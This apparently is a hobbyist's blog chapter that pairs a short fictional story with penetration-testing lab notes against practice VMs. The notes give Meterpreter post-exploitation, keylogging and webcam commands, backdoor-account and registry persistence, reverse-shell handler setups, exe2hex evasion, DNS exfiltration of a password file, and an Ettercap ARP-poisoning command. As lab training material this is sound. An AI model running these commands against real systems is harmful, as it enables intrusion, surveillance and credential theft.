





<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/7FJrIeLwz1qQsgFyYzNW7Q?utm_source=generator" width="100%" height="152" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>

**Disclaimer** *: This blog post is a work of fiction. Names, characters, businesses, places, events, and incidents are either the products of the author's imagination or used in a fictitious manner. Any resemblance to actual persons, living or dead, or actual events is purely coincidental.*

Driving back from the encounter, the White Rabbit arrives home with confusion as to what just happened at work. Grabbing his trusty red foldable bike from the stairs he decides to head off into town as the sun was setting down to let his mind wonder a bit before sleep.

This country used to be an amazing city full of interesting people, things to do and see. However, over the year water level has risen for strange reasons which turned the city down to a little town with with old ancient buildings left in tact and tight street alleys.

The Rabbit decides to head down to his favorite spot to see how the gooses are doing and see the seaside by the dock, cycling there wasn't long of a trip, only 5 minutes to cycle down to get the best place in town. But he stops by a corner shop to buy a delicious, cold and creamy snack perfect for the summer as traditions when heading out.

The docks was filled with boats which were tightly parked like sardines, the wind was swaying the water gently which rocked the boats in a calm manner. Over the water you could see a platform for industrial warehouse to have things dropped off by large boats that have come from far lands, the White Rabbit doesn't travel far but when he does it's to visit his families ice cream business. He took it all in in silence, no thought came over, just a blank slate.

His icy treat was a perfect merge of two strange flavours that you wouldn't expect to go with each other, one side is zesty, sour, fresh yellow part with a complimentary rich, deep flavour with a deep hint of Almond on the more red ish side. This makes it the perfect treat for those days where you could just wear a t-shirt out late at night without getting cold. (≧︿≦)

As he was close to finishing he noticed that a **Pelican** was stood still on a dock beam the entire time, the Rabbit looks over while finishing his treat. 

"Why do I feel like this, I've never had an encounter with someone like this before, why today?" 
the Rabbit says, the Pelican didn't answer or move. 

"Why do I want her so badly knowing that she has someone already?"
Still no answers.

"Well I just wanted to say thank you for letting me dream for just one day, I knew the moment wouldn't last so I cherished it, every minutes and I'm glad you gave me this gift for the efforts I put in this world, You are Real."
The Pelican looks over.

"You have done well in your hard journey up until know, you have improved yourself far enough through these grusome years of self-improvement and I believe you are worthy for a selection of a complimentory, enternal partner"
The Pelican responded after staying silence.

In awe the Rabbit stood there amazed at what he has just witnessed, "Did you just speak to me?" the Rabbit responded.

The Pelican flies off into the river side into the horizon, what great response that was from it, but it did lack clarity, I'm sure this won't effect the story.

<video controls muted>
  <source src="20240615_205006_online-video-cutter.com.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

Rabbit decides to hop back on bike and then head over to the dock crossing bridge edge where he can see a great view of the ocean and distant silhouette.

On the way he saw the goose house that sits between a building and a still part of the dock river which allows them to freely swim in and out of the ocean and river, there are small babies inside along with the mother and no sight of the father, probably out hunting for the kids. There was one of the baby geese that was out swimming by itself. It was a courageous small geese and wanted to explore around the house which it did, it got stuck and screamed out but the mother wasn't going to help, she was too busy keep all the others together. So Rabbit watched it struggle for a little while thinking to go over and help but he just sat there, eventually it got back to its mother but it really makes you think that you are truly alone in this world that even your own mother might not help so be the toughest person you can be in this world. (ﾉ◕ヮ◕)ﾉ*:・ﾟ✧

"What a great view" the Rabbit thought as he was siting down on that windy night, it was a strong wind coming towards East which had the Rabbit huddle for warmth but luckily he wears a white top which keeps him very warm a cosy and would also another person if needed it was that big. After a while of sitting he decides to lay there for a bit a look at the distant stars that are starting to appear, he felt like just laying down there in the cold and getting cozy under the moon light.

He was shaking from the cold breeze coming from the ocean which attracted the attention of seagulls which decided to cycle above his head as if they were vultures ready to eat him when he stops moving. 

"Thank you for this short dream, I am forever grateful for this dream and opertunity to experience history being made as I write this. I just wanted to say that the beings beyond me are the ones to thanks, every one and everything and the Buddha."

Bro then returned home and fell asleep as if nothing happened, bro chilled out but couldn't sleep for some reason which was something that happens all the time so he reads "Kafka on the Shore" by Haruki Murakami which is a fantastic aurthor and I would recommend "Norwegian Wood" by Haruki Murakami as this has more sexy scenes and better story telling.
<video controls muted>
  <source src="20240615_205943_online-video-cutter.com.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

## 1. Post-exploitation using Meterpreter

1. Using the reverse-shell gained from [Part 6 #42 smb eternalblue vulnerability](../part-6-all-on-networking-penetration-baby/#42-smb-eternalblue-vulnerability)


2. Meterpreter runs on the targets memory which doesn't write any data, however it will show as a running process. We can migrate the process into a less suspicious process with `run post/windows/manage/migrate`


3. Windows will have hashes of users login password stored on the Security Account Manager (SAM) which is usually located at `C:\Windows\System32\config`. This can be retrieved using `hashdump` 


### 1.1 Useful Meterpreter Commands

**keyscan_start**: Meterpreter begins capturing the keystrokes entered by a user on the compromised host.
**keyscan_stop**: Stop capturing the keystrokes entered by a user on the compromised system.
**keyscan_dump**: Exports the captured keystrokes into a file.
**screenshot**: Meterpreter will capture a screenshot of the desktop on the compromised host.
**screenshare**: Begins a real-time stream showing the live actions performed by a user on the compromised host.
**record_mic**: Meterpreter activates the microphone on the compromised host and begins recording.
**webcam_list**: Displays a list of webcams available on the compromised host.
**webcam_snap**: Activates the webcam on the compromised host and takes a picture.
**webcam_stream**: Begins a live stream from the webcam on the compromised system.
**search**: Using the search –f `<filename>` command quickly searches on the compromised system for the file.
**pwd**: Displays the present working directory when using a Meterpreter shell on a compromised system.
**cd**: This command allows you to change the working directory while using the Meterpreter session on a compromised host.

### 1.2 Uploading and downloading files

1. Uploading `vncviewer.exe` from Part 5 with `meterpreter > upload /usr/share/windows-binaries/vncviewer.exe c:\\`


2. Download files with `download c:\\java0.log /home/kali/Desktop`


## 2. Privilege Escalation In Meterpreter

When targeting real organisations I will be most likely targeting employees that aren't the most tech-savy to gain either a reverse or bind shell, this is great to get access inside a network but I won't have the level of access to perform administrative commands which is game over for a target.

1. To increase my privilege on the win2k8 vm machine I will use the `priv` extension provided within Meterpreter

### 2.1 Token Stealing and Impersonation 
When an admin remotely accesses a host this creates a token like a footprint of their past login activity, if found on a compromised host within a Meterpreter shell it can be used to escalate our privilege

1. With a MSF eternalblue meterpreter shell, run `use incognito` to get extra commands followed by `list_tokens -u`


2. I then logged into the win2k8 lab administrator account and impersonated the token with `impersonate_token "VAGRANT-2008R2\Administrator"`



3. Use `getsystem` command to migrate from administrator to system authority which is the highest level of authority.

## 3. Implementing Persistence

A meterpreter shell connection will be loading into ram meaning that whenever the target client turn's off power to their machine we loose a connection which means we will have to go through the process of opening another shell. I could use a few techniques with Meterpreter to create persistence, meaning that I could connect to the host whenever it's online.

### 3.1 Creating Persistence through Account Creation Backdoor
1. With a Meterpreter connection to the Win2k8 Lab machine, execute following command to enable RDP port: `run post/windows/manage/enable_rdp` 
2. Create a `shell` and run `net user pentester password1 /add` to create a user 'pentester' with 'password1' as the login pass 


3. When trying to connect using the Rdesktop tool to log into the account created I come across an error message for configuring allow log on for the user !! Try to find a bypass for RDP new member Allow log on through Terminal Services, check if the payload has been created !



If persistence isn't necessary for a penetration test, simply don't do it.


### 3.2 Registry Persistence Creation
MSF contains two main modules which are designed for Window persistence creation:
- `exploit/windows/local/persistence`
- `exploit/windows/local/registry_persistence`
Both will modify the registry value located within `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` and insert a VBS script in `C:\WINDOWS\TEMP\` which executes the script whenever the user boots up the machine.

1. Execute the following commands on MSF
```bash
meterpreter > background
msf6 > use exploit/windows/local/persistence
msf6 (windows/local/persistence) > set SESSION 1
msf6 (windows/local/persistence) > set STARTUP SYSTEM
msf6 (windows/local/persistence) > set LHOST 172.30.1.21
msf6 (windows/local/persistence) > set LPORT 87
msf6 (windows/local/persistence) > exploit
```


2. After creating a persistence payload on the target, connect to it with the following commands 
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > set LPORT 87
msf6 exploit(multi/handler) > exploit
```

### 3.3 Lateral Movement and Pivoting
1. Turn on Metsploitable 3 Win2k8 and Metasploitable 3 Linux 
2. Obtain a Meterpreter shell and use the `arp` command 


3. List network interfaces and their MAC address with `ipconfig` which allows us to see the hidden network Netmask in the following screenshot:


4. The `route` command will confirm any gateways accessible from the Meterpreter connection


5. Give access to these hidden routes with `run post/multi/manage/autoroute` which will allow connection to these other networks 


### 3.4 Clearing Tracks after Penetration Test 



Make sure to remove any custom payloads, configuration changes, backdoors after a penetration test on an organisation


## 4. Data Encoding and Exfiltration

ƸӜƷ ƸӜƷ ƸӜƷ Hey I know I've been talking a lot but I appreaciate you being here reading on, you never know when I'll drop secretes of the story here in the research huh? Well I will be so be on the lookout ƸӜƷ ƸӜƷ ƸӜƷ 



In this section I will be going over encoding payloads to reduce detection rate and also how to extract sensitive files without being detected. I will learn more on encoding Windows executable and how to convert files into DNS queries.

### 4.1 Encoding Executable with exe2hex

Exe2hex is a encoder which comes with Kali that allows for conversions from window executable to ASCII which when ran on a victim will convert back into an executable, this method of encoding isn't an effective way to stay stealthy.
1. Use `/usr/bin/exe2hex -x vncviewer.exe` to convert the `vncviewer.exe` encoded file from [[Chapter-7-Understanding-Network-Penetration-Testing#2.2 Using Shellter to reduce detection]] 


2. Setup a Metasploit listener with the following commands:
```bash
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > set LHOST 172.30.1.22
msf6 exploit(multi/handler) > exploit
```
3. Open a python web server with `python3 -m http.server 8080` and navigate to the address using the targets client and download the `vncviewer.cmd` file from the exe2hex encoding


4. Run the `vncviewer.cmd` file, this will reassemble the ASCII file into an executable which can be ran to open a meterpreter shell between Kali and the target 


5. After running the executable a meterpreter session has opened


## 5. Data Exfiltration using PacketWhisper

### 5.1 Setting up the environment 
1. Install the following packages from git:
```bash
git clone https://github.com/TryCatchHCF/PacketWhisper
wget https://github.com/TryCatchHCF/PacketWhisper/archive/refs/heads/master.zip
```
2. Install the `master.zip` file using a Python web server with the command `python3 -m http.server 8080`


3. Install `python-2.7.18` onto the win2k8 lab machine after transferring, this will allow us to run the PacketWhisper scripts on the machine


4. Go to Control Panel > System and Security > System > Advancded system settings > Environment Variables


5. Under the System variables section select Path and click on Edit where `,C:/Pyton27` should be added at the end of the Variable value string. This will allow python programs to run on this dinosaur system



### 5.2 Changing the DNS setting on the compromised host
A tool which will allow stealthy file transfer over DNS from a compromised machine to another on a network
1. On the win2k8 machine head to `Control Panel > Network and Sharing Center > Change Adapter Settings`
2. Then double-click on the `PentesNet` adaptor and select **Internet Protocol Version 4**


### 5.3 Performing Data Exfiltration

3. Extract the `master.zip` file containing PacketWhisper and cd into it from the compromised machine, create a password file containing credentials
4. Run the program with `python packetWhisper.py` and select option 1 to transfer a file via DNS:



5. Make the following selections below to choose a cipher and a cloak:


6. Agree to view the samples with `y` and begin transfer while having **Wireshark** opened on Kali listening to traffic coming from the PentesNet 172.30.1.0/24



7. Wireshark will start to collect traffic coming from the compromised system which should be saved into PacketWhisper directory and saved as a pcap for reading


8. Now that we sneakly sent over a password file over DNS we can read the file over on Kali by running `python2 packetWhisper.py` and making the following selections:


9. The file can be read with `cat decloaked.file`


## 6. Understanding MITM and packet sniffing attacks
A network will connect devices through switches which constantly send packages containing different types of information, these can contain credentials, documents website visited depending on the protocol used.

An MITM or also known as a Man-in-the-middle attack which sits between packet traffic flow on a network.

### 6.1 Using Ettercap to perform a MITM attack
MITM can make use of the **Address Resolution Protocol (ARP)**  which resolves a IP to MAC address to map all devices on a network, this is stored within a ARP cache on each host device. I will be using Ettercap to poison the ARP cache to redirect all traffic from both my win2k8 and OWASP BWS lab to my Kali linux machine

1. Make sure both win2k8 and OWASP BWS virtual machines are on the PentesNet network and execute the following command on Kali:
```bash
sudo ettercap -i eth1 -T -q -S -M arp:remote /172.30.1.21// /172.30.1.23//
```
2. On the win2k8 VM go to `http://<OWASP-BWA-IP> ` through a browser which I could then read packages through Wireshark, here we can see HTTP connections being established by both VMs


3. Confirm that the ARP has been poisoned by Ettercap with `arp -a` on the win2k8 VM



4. We can send credentials through an unsecure HTTP connection between each VMs by selecting **OWASP WebGoat** which will prompt the user to enter login credentials. This will be picked up by Ettercap 


## Conclusion

Alright guys hope yall enjoyed this months chapter, I do try to get these out as fast as humanly as possible so let me try, as of today (23/07/2024) I have written so much late at night that it's unbelievable that I was the same person a couple of years ago, I would of never thought in a million years that I would be writting a book which is something I believe we all have in us and should give it a shot since we miss every shot we don't take and going all in this summer of 2024 is gonna be crazy. Finna meet some girls, play around on my bike, go on dates and fall in love. This is looking like a great come back from the time I was off and I wanted to say thank you the read for putting up with my shit. I know writing isn't my thing but please keep in mind that I'm only 19 and writing can be difficult so I do my best. This is something I can be excited about when I wake up and put all my energy into which is a great way to forget about other troubles. I would like to get back into routine more and meditate to keep my sanity sane and in tack just so I don't go crazy again. Anyways I go a bracellet from these kids at a stand selling loon bands so I ask the two girls to make one for her and me and get matching bracelet, shit gonna be fire just wait. Story going to be crazy.

